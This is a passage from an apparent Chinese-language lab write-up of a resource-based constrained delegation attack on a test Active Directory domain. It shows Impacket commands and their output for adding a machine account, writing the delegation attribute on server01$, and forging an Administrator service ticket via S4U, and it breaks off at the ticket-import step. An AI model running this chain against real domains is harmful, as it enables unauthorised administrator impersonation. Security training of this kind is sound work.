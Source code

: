 那么就可以知道该计算机是通过 test 账户加入域的，那么 test 就拥有权限修改他的`msDS-AllowedToActOnBehalfOfOtherIdentity` 属性

通过 test 账户在域内添加一个机器账户

```jsx
⚡ root@kali  ~/Desktop/Tools/pywerview/output  addcomputer.py sunset.com/test:Aa118811 -computer-name TEST\$ -computer-pass 123456 -dc-host DC.sunset.com -dc-ip 192.168.111.167
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account TEST$ with password 123456.
```

然后配置 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性

将 `TEST$` 计算机账户添加到 `server01$` 计算机账户的 **msDS-AllowedToActOnBehalfOfOtherIdentity** 属性中

`TEST$` 计算机账户就可以通过 Kerberos 认证，以其他用户的身份代表他们访问 `server01$`，实现委派访问

```jsx
⚡ root@kali  ~/Desktop/Tools/pywerview/output  rbcd.py sunset.com/test:Aa118811 -dc-ip 192.168.111.167 -action write -delegate-to server01\$ -delegate-from TEST\$ 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] TEST$ can now impersonate users on server01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     TEST$        (S-1-5-21-3610652312-2325709601-788499419-1114)
```

查看委派是否成功

```jsx
⚡ root@kali  ~/Desktop/Tools/pywerview/output  findDelegation.py sunset.com/test:Aa118811 -dc-ip 192.168.111.167 -target-domain sunset.com 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

AccountName  AccountType  DelegationType              DelegationRightsTo  SPN Exists 
-----------  -----------  --------------------------  ------------------  ----------
TEST$        Computer     Resource-Based Constrained  SERVER01$           No      
```

最后利用 S4U 协议伪造 Administrator 用户申请 ST

```jsx
⚡ root@kali  ~/Desktop/Tools/pywerview/output  getST.py -dc-ip 192.168.111.167 -spn cifs/server01.sunset.com -impersonate Administrator sunset.com/test\$:123456
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_server01.sunset.com@SUNSET.COM.ccache
```

导入票据
